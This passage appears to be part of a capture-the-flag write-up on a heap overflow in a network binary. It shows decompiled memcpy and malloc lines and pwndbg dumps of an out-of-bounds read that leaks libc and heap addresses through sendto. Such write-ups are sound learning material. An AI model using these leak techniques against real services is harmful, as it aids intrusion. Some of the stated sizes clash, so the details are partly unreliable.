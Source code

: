 It simply sends the data that the user has been sending to the user. Does it safely?

```cpp
addr = (struct sockaddr *)malloc(532uLL);
v8 = (data *)malloc(0x100CuLL);
```

After examining the variable `sockaddr *a1`, which has a data field of 0x200 bytes, and the array `data *a2`, which has 0x1000C bytes of data, we noticed...
```
memcpy(&a1[1].sa_data[2], s, (unsigned __int16)a2->size + 10);
```

When it uses memcpy to copy `s` to `&a1[1].sa_data[2]` with a size larger than 0x200 because `a2` is below `a1` struct in the heap mapping address, it causes a message of `v5` overflow in the metadata field (magic, opcode, size) of `a2`, so I have the OOB bug.

```
pwndbg> tel 100
00:0000│ rsp 0x7ffc4d8e0b30 —▸ 0x5584a5b415e0 ◂— 0x4141414141414141 ('AAAAAAAA') // a2
01:0008│     0x7ffc4d8e0b38 —▸ 0x5584a5b413c0 ◂— 0x100007faf910002               // a1
02:0010│     0x7ffc4d8e0b40 ◂— 0x30170303070
03:0018│     0x7ffc4d8e0b48 ◂— 0x4141414141410fff
04:0020│     0x7ffc4d8e0b50 ◂— 0x4141414141414141 ('AAAAAAAA')
... ↓        95 skipped
pwndbg>
```

After repeatedly using the send_to loop to leak the size of 0x1000, it printed multiple data from the heap, including libc and heap addresses.

```
► 0x56244a4b4a17    call   sendto@plt                <sendto@plt>
        fd: 0xb (socket:[133812])
        buf: 0x56244bdc63d4 ◂— 0x30170303070
        n: 0x1000
        flags: 0x0
        addr: 0x56244bdc63c0 ◂— 0x100007f1ad40002
        addr_len: 0x10
 
   0x56244a4b4a1c    cmp    rax, -1
   0x56244a4b4a20    jne    0x56244a4b4a31                <0x56244a4b4a31>
 
   0x56244a4b4a22    lea    rax, [rip + 0x15fb]
   0x56244a4b4a29    mov    rdi, rax
   0x56244a4b4a2c    call   error                <error>
────────────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffd3980e4b0 ◂— 0x4
01:0008│     0x7ffd3980e4b8 ◂— 0x414b00000001
02:0010│     0x7ffd3980e4c0 —▸ 0x56244bdc63d4 ◂— 0x30170303070
03:0018│     0x7ffd3980e4c8 —▸ 0x56244bdc63c0 ◂— 0x100007f1ad40002
04:0020│     0x7ffd3980e4d0 ◂— 0x2158f0
05:0028│     0x7ffd3980e4d8 ◂— 0x100000000000
06:0030│ rbp 0x7ffd3980e4e0 —▸ 0x7ffd3980f520 —▸ 0x7ffd3980f540 —▸ 0x7ffd3980f640 ◂— 0x1
07:0038│     0x7ffd3980e4e8 —▸ 0x56244a4b5101 ◂— nop 
──────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0   0x56244a4b4a17
   1   0x56244a4b5101
   2   0x56244a4b56ff
   3   0x56244a4b5b78
   4   0x7fc435a29d90 __libc_start_call_main+128
   5   0x7fc435a29e40 __libc_start_main_impl+128
   6   0x56244a4b45e5
──────────────────────────────────────────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────────────────────────────────────────
  ► 1   "serendipity_pat" stopped: 0x56244a4b4a17
```